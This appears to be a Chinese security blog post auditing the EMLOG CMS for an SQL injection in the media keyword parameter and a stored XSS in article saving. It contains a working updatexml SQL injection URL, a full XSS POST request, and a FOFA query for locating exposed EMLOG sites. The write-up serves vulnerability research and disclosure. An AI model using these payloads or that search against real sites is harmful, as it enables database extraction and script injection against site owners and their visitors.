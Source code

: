 #  【代码审计】Emlog存在SQL注入+XSS漏洞   
 实战安全研究   2025-04-27 02:00  
  
<table><tbody><tr style="margin-top: 8px;margin-bottom: 8px;outline: 0px;max-width: 100%;visibility: visible;word-break: break-all;hyphens: auto;box-sizing: border-box !important;overflow-wrap: break-word !important;"><td data-colwidth="557" width="557" valign="top" style="margin-top: 8px;margin-bottom: 8px;padding: 0px;outline: 0px;max-width: 100%;visibility: visible;word-break: break-all;hyphens: auto;box-sizing: border-box !important;overflow-wrap: break-word !important;"><p style="margin-top: 8px;margin-bottom: 8px;outline: 0px;max-width: 100%;visibility: visible;word-break: break-all;hyphens: auto;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(53, 53, 53);font-family: &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, 黑体, Arial, sans-serif;letter-spacing: normal;text-align: start;text-wrap: wrap;outline: 0px;font-size: 14px;visibility: visible;"><span style="outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><strong style="outline: 0px;visibility: visible;"><span data-raw-text="声"><span style="border-width: initial;border-style: none;border-color: initial;display: inline-block;text-indent: initial;"><span leaf="">声</span></span></span></strong></span></span><span style="color: rgb(53, 53, 53);font-family: &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, 黑体, Arial, sans-serif;letter-spacing: normal;text-align: start;text-wrap: wrap;background-color: rgb(255, 255, 255);outline: 0px;font-size: 14px;visibility: visible;"><span style="outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><strong style="outline: 0px;visibility: visible;"><span data-raw-text="明"><span style="display: inline-block;text-indent: initial;"><span leaf="">明</span></span></span><span data-raw-text="："><span style="display: inline-block;text-indent: initial;"><span leaf="">：</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">本</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">文</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">提</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">供</span></span></span></strong></span></span><span style="color: rgb(53, 53, 53);font-family: &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, 黑体, Arial, sans-serif;letter-spacing: normal;text-align: start;text-wrap: wrap;background-color: rgb(255, 255, 255);outline: 0px;font-size: 14px;visibility: visible;"><span style="outline: 0px;color: rgb(217, 33, 66);visibility: visible;"><strong style="outline: 0px;visibility: visible;"><span data-raw-text="部" style="outline: 0px;visibility: visible;"><span style="display: inline-block;text-indent: initial;"><span leaf="">的</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">技</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">术</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">文</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">章</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">仅</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">供</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">参</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">考</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">，</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">此</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">文</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">所</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">提</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">供</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">的</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">信</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">息</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">只</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">为</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">网</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">络</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">安</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">全</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">人</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">员</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">对</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">自</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">己</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">所</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">负</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">责</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">的</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">网</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">站</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">、</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">服</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">务</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">器</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">等</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">（</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">包</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">括</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">但</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">不</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">限</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">于</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">）</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">进</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">行</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">检</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">测</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">或</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">维</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">护</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">参</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">考</span></span><span style="display: inline-block;text-indent: initial;"><span leaf="">，</span></span></span></strong></span></span><strong style="font-family: &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei&#34;, 黑体, Arial, sans-serif;text-align: start;text-wrap: wrap;background-color: rgb(255, 255, 255);color: rgb(217, 33, 66);font-size: 14px;letter-spacing: 0.034em;outline: 0px;visibility: visible;"><span data-raw-text="如"><span style="display: inline-block;text-indent: initial;"><span leaf="">如</span></span></span><span data-raw-text="用"><span style="display: inline-block;text-indent: initial;"><span leaf="">用</span></span></span><span data-raw-text="于"><span style="display: inline-block;text-indent: initial;"><span leaf="">于</span></span></span><span data-raw-text="其"><span style="display: inline-block;text-indent: initial;"><span leaf="">其</span></span></span><span data-raw-text="他"><span style="display: inline-block;text-indent: initial;"><span leaf="">他</span></span></span><span data-raw-text="用"><span style="display: inline-block;text-indent: initial;"><span leaf="">用</span></span></span><span data-raw-text="途"><span style="display: inline-block;text-indent: initial;"><span leaf="">途</span></span></span><span data-raw-text="，"><span style="display: inline-block;text-indent: initial;"><span leaf="">，</span></span></span><span data-raw-text="由"><span style="display: inline-block;text-indent: initial;"><span leaf="">由</span></span></span><span data-raw-text="使"><span style="display: inline-block;text-indent: initial;"><span leaf="">使</span></span></span><span data-raw-text="用"><span style="display: inline-block;text-indent: initial;"><span leaf="">用</span></span></span><span data-raw-text="者"><span style="display: inline-block;text-indent: initial;"><span leaf="">者</span></span></span><span data-raw-text="承"><span style="display: inline-block;text-indent: initial;"><span leaf="">承</span></span></span><span data-raw-text="担"><span style="display: inline-block;text-indent: initial;"><span leaf="">担</span></span></span><span data-raw-text="全"><span style="display: inline-block;text-indent: initial;"><span leaf="">全</span></span></span><span data-raw-text="部"><span style="display: inline-block;text-indent: initial;"><span leaf="">部</span></span></span><span data-raw-text="法"><span style="display: inline-block;text-indent: initial;"><span leaf="">法</span></span></span><span data-raw-text="律"><span style="display: inline-block;text-indent: initial;"><span leaf="">律</span></span></span><span data-raw-text="及"><span style="display: inline-block;text-indent: initial;"><span leaf="">及</span></span></span><span data-raw-text="连"><span style="display: inline-block;text-indent: initial;"><span leaf="">连</span></span></span><span data-raw-text="带"><span style="display: inline-block;text-indent: initial;"><span leaf="">带</span></span></span><span data-raw-text="责"><span style="display: inline-block;text-indent: initial;"><span leaf="">责</span></span></span><span data-raw-text="任"><span style="display: inline-block;text-indent: initial;"><span leaf="">任</span></span></span><span data-raw-text="，"><span style="display: inline-block;text-indent: initial;"><span leaf="">，</span></span></span><span data-raw-text="与"><span style="display: inline-block;text-indent: initial;"><span leaf="">与</span></span></span><span data-raw-text="工"><span style="display: inline-block;text-indent: initial;"><span leaf="">工</span></span></span><span data-raw-text="具"><span style="display: inline-block;text-indent: initial;"><span leaf="">具</span></span></span><span data-raw-text="作"><span style="display: inline-block;text-indent: initial;"><span leaf="">作</span></span></span><span data-raw-text="者"><span style="display: inline-block;text-indent: initial;"><span leaf="">者</span></span></span><span data-raw-text="和"><span style="display: inline-block;text-indent: initial;"><span leaf="">和</span></span></span><span data-raw-text="本"><span style="display: inline-block;text-indent: initial;"><span leaf="">本</span></span></span><span data-raw-text="公"><span style="display: inline-block;text-indent: initial;"><span leaf="">公</span></span></span><span data-raw-text="众"><span style="display: inline-block;text-indent: initial;"><span leaf="">众</span></span></span><span data-raw-text="号"><span style="display: inline-block;text-indent: initial;"><span leaf="">号</span></span></span><span data-raw-text="无"><span style="display: inline-block;text-indent: initial;"><span leaf="">无</span></span></span><span data-raw-text="关"><span style="display: inline-block;text-indent: initial;"><span leaf="">关</span></span></span><span data-raw-text="。"><span style="display: inline-block;text-indent: initial;"><span leaf="">。</span></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 14px;visibility: visible;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;color: rgb(217, 33, 66);visibility: visible;box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;visibility: visible;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span data-raw-text="。"></span></strong></span></span></p></td></tr></tbody></table>  
  
  
   
   
   
  
  
**1.源码简介**  
  
    EMLOG 是一款轻量级开源博客和CMS建站系统，速度快、省资源、易上手，适合各种规模的站点搭建。  
  
  
**2.漏洞描述**  
  
**EMLOG $keyword参数存在SQL注入漏洞。**  
  
EMLOG article.php文件active_post参数存在XSS漏洞  
  
  
**2.影响范围**  
  
****  
EMLOG <=2.7版本  
  
**FOFA:**  
```
App="EMLOG"&&is_domain=true&&country="CN"
```  
  
**危害级别****：高**  
  
**3.代码审计过程**  
  
****  
一、SQL注入漏洞分析过程  
  
  
1、首先打开emlog_pro_2.5.7\admin\media.php文件，$keyword参数由此传入。在  
media.php中，  
keyword参数通过  
Input::getStrVar('keyword')获取。  
  
如下图：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8YM9ywQBYJIdEcpLZvxU9BE5uiad3LSibvvF7E9iaZLHXtkBos91CiahgibQ/640?wx_fmt=png&from=appmsg "")  
  
2、接着，这个参数被传递到  
Media_Model的  
getMedias和  
getMediaCount方法中如下图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR801icEo6Krj4ibqb1emfELs2OVenpqXSOB37NewARXVwNkupTUfPUlRNQ/640?wx_fmt=png&from=appmsg "")  
  
3、在Media_Model类的getMedias方法里，构造SQL查询时，直接使用了$keyword变量，并将其拼接到SQL语句中。具体代码行是：emlog_pro_2.5.7\include\model\media_model.php第29行，如图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8u8GInh7xibNUaF3dibVbE7ibWt4pQGNwvaWotPjPkMSxsDrqxnuB8GFXA/640?wx_fmt=png&from=appmsg "")  
  
4、这里明显没有对$keyword进行任何过滤或转义处理，直接将其插入到SQL语句中。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8DHsS1oyLxUw1a01ErYKcx11GhKibR0FTrlM0TjeV6nicuMa3fibEBXqVA/640?wx_fmt=png&from=appmsg "")  
  
  
二、XSS  
分析过程  
1、漏洞点在emlog_pro_2.5.7\admin\articel_save.php文件，第45-50行。当$auto_excerpt为'y'时，代码使用Parsedown解析Markdown内容生成HTML摘要。若原始内容包含恶意HTML（如<script>alert(1)</script>），转换后的HTML会被直接存储。若前端未转义摘要内容，将触发XSS。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8nmtklEhxd1BX2DPo5mVTk8qC0W8QmicjvLhMib9QXiaZVzicHLL3wiaEHMw/640?wx_fmt=png&from=appmsg "")  
  
2、跟进extractHtmlData方法未作相关过滤  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR84jSGKvibYspEgBoDPgxJ33ibI8JDmZyT9Bt6hibLQO9ibErUHWQO8IomZA/640?wx_fmt=png&from=appmsg "")  
  
3、接着$excerpt,赋值给$logData  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8ibzzC2Ahm6WQSoibUMW2oWoblLoSpyCnsur2o0OKtNe321Bj1qicpTmHg/640?wx_fmt=png&from=appmsg "")  
  
4、最后在articel_save.php文件，第89行通过doMultiAction保存  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8ORSF1Z5fvEicVmibIKH0cIicTZP3HiavZy5iaK7hknTGu3H9NqYqsPEnBWw/640?wx_fmt=png&from=appmsg "")  
  
5、跟进doMultiAction，通过钩子直接保存数据  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8Pqb9WqE3fYtphgqLxIrOw6Mx807xJNlmTcjvqpZxvUT04A2jfTBqjw/640?wx_fmt=png&from=appmsg "")  
  
  
综上若原始内容包含恶意HTML（如<script>alert(1)</script>），转换后的HTML会被直接存储。若前端未转义摘要内容，将触发XSS。  
**4. 搭建环境进行验证：**  
Apache  
.  
2  
.  
4.39  
  
MySql5.7.26  
  
P  
hp5.6.9  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8RS1vJwz6l4vEWVcZwBtEbT2Z0TV57URibUUDmPiccw1mk9ict0Yc1vz3g/640?wx_fmt=png&from=appmsg "")  
  
  
安装：  
先在msyql创建emlog数据库再访问web安装即可  
  
## 1、sql注入验证：  
```
http://127.0.0.1:8099/index.php?keyword=%2527%20AND%20updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)%20%20--%2520
```  
##   
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8WIhEibdxU9uRKDBtmliau9uowYiaojUDP7lmvYFCJ6x07SoINDGM231EA/640?wx_fmt=png&from=appmsg "")  
  
  
2、xss验证：  
```
POST /emlog_pro_2.5.7/admin/article_save.php HTTP/1.1
Host: 192.168.17.103
Content-Length: 1796
Cache-Control: max-age=0
Origin: http://192.168.17.103
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7dLxxHHoddxnJMVB
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.103/emlog_pro_2.5.7/admin/article.php?action=edit&gid=2
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_948dba1e5d873b9c1f1c77078c521c89=1744352762; tw_comment_author=1; tk_ai=1%2BA2fri83NiO%2FIPjMIdteEBR; PHPSESSID=24fggvmjq26us7riv236npp743; EM_AUTHCOOKIE_O5MScKeTFAaXFCEtXoNG5gLYyH9s5X4Y=admin%7C0%7Cd6687300a74ea0f8afb2e7164704c7cb; em_saveLastTime=1745478698706
Connection: keep-alive
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="title"
111
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="logcontent"
body"><img src="xss" onerror="alert(/111111111111111/)">
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="logexcerpt"
1111
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="ishide"
n
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="as_logid"
2
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="gid"
2
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="author"
1
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="cover"
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="upload_img"; filename=""
Content-Type: application/octet-stream
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="sort"
-1
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="tag"
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="postdate"
2025-04-24 14:37:07
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="allow_remark"
y
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="alias"
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="link"
------WebKitFormBoundary7dLxxHHoddxnJMVB
Content-Disposition: form-data; name="password"
------WebKitFormBoundary7dLxxHHoddxnJMVB--
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8FVBcSuLewGMicmUiaib203LqjxiaxY3RN5NnvzCS5ZrVh3gQyH4JGLa0Bg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8Y6uM71tuaTXpIr6TU6iahickDkwNiaE3Vsoy4MZI7tHickvLbj4OL2iaU2A/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**5. nuclei检测脚本：**  
  
**公众号回复Emlog获取检测脚本和源代码**  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR8b584ZqyDojcjZI03KsbEOSLINMJAgam6eEMvYfRCiaiccYkSy1z4lJSQ/640?wx_fmt=png&from=appmsg "")  
  
  
6.修复建议  
  
  
****  
建议使用专门的 Web 应用程序防火墙（WAF）来检测和防止 SQL 注入攻击。WAF 可以提供更强大的安全性，包括自定义规则、恶意模式检测和更高级的防护。  
  
  
nuclei检测  
  
公众号回  
复  
Emlog获取检测脚本和源代码  
  
最后知识星球上线啦  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iaib0k4wNj1uEBUXuiaJCNQLAO7pQhWicnR84m4CibL0keqCajpMT3BIlDzrGt67qNaO6W7DRxsM7FIP78beIZUItXQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
